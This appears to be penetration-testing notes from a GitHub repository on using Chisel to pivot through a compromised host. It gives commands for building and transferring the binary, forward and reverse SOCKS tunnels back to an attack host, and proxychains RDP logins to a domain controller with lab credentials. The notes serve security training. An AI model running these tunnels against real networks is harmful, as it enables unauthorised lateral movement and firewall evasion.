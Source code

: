 # Content
- [Chisel](#chisel)
- [Chisel Pivot](#chisel-pivot)
- [Chisel Reverse Pivot](#chisel-reverse-pivot)

# Chisel
- [chisel](https://github.com/jpillora/chisel)
- Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH.
- Chisel can create a client-server tunnel connection in a firewall restricted environment.


![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)



## Chisel Pivot
### Setting Up & Using Chisel
```shell
$ go install github.com/jpillora/chisel@latest

# or

$ git clone https://github.com/jpillora/chisel.git
$ cd chisel
$ go build
## shrinking the size of the binary
$ go build -ldflags="-s -w"
$ upx brute chisel 
```

### Transferring Chisel Binary to Pivot Host
```shell
$ scp chisel ubuntu@10.129.202.64:~/
```
### Running the Chisel Server on the Pivot Host
```shell
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5


2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

### Connecting to the Chisel Server
```shell
$ ./chisel client -v 10.129.202.64:1234 socks
```

### Editing & Confirming proxychains.conf

```shell
$ tail -f /etc/proxychains.conf 

# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

### Starting the Chisel Server on our Attack Host
```shell
$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

### Connecting the Chisel Client to our Attack Host

```shell
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```

### Editing & Confirming proxychains.conf
```shell
$ tail -f /etc/proxychains.conf 

# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

